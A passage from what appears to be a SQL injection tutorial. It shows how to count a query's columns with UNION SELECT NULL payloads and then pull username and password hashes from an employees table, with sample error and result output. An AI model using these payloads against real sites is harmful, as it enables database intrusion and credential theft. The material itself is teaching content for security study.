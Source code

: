  - By using an SQL injection payload, we can interrupt this regular query with `union` in order to modify it to return to us the number of columns used in the original query.

 -  **Note** that the number of values shown on a page may not necessarily reflect the number of values used in a query.

Use the following example as a common format used for enumerating the number of values a query: 

  - `' union select NULL,NULL,NULL,etc.-- `, where each `NULL` is a placeholder for the number of columns or values in the original query. **Note** that there is a space after the `--`.

  - So say we tried using three `NULL`'s, despite there being four values in the original query (title, release, actor, genre):

    - `' union select NULL,NULL,NULL,etc.-- `

  - For anything more or less than four `NULL` value placeholders, a site may return an error such as:

      ```
      Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
      ```

  - You will then either add or remove `NULL`'s until the injection attempt no longer causes an error. When the right number of columns are found, the query should no longer error and should return blank data.

  - So, for example, if four `NULL`'s are used here, then we end up with the following payload generating no errors (note the blank row beneath):

    - `' union select NULL,NULL,NULL,NULL-- `

      | Title | Release | Actor | Genre |
      |:--:|:--:|:--:|:--:|
      | Citizenfour | 2014 | Edward Snowden | Documentary |
      |<pre></pre>|<pre></pre>|<pre></pre>|<pre></pre>|

   - We would then edit the payload to look for potential `employees` table data, `username` and `password`:

      - `' union select username,password,NULL,NULL from employees-- ` (note the missing `username`s).

  | Title | Release | Actor | Genre |
  |:--:|:--:|:--:|:--:|
  | Citizenfour | 2014 | Edward Snowden | Documentary |
  |098f6bcd4621d373cade4e832627b4f6|<pre></pre>|<pre></pre>|<pre></pre>|
  |5f4dcc3b5aa765d61d8327deb882cf99|<pre></pre>|<pre></pre>|<pre></pre>|
  |84d961568a65073a3bcf0eb216b2a576|<pre></pre>|<pre></pre>|<pre></pre>|
  |9f05aa4202e4ce8d6a72511dc735cce9|<pre></pre>|<pre></pre>|<pre></pre>|

  - At this point, if only the second value shows up on our web application, then we need to "shift" the payload right by starting it after the first `NULL` entry:
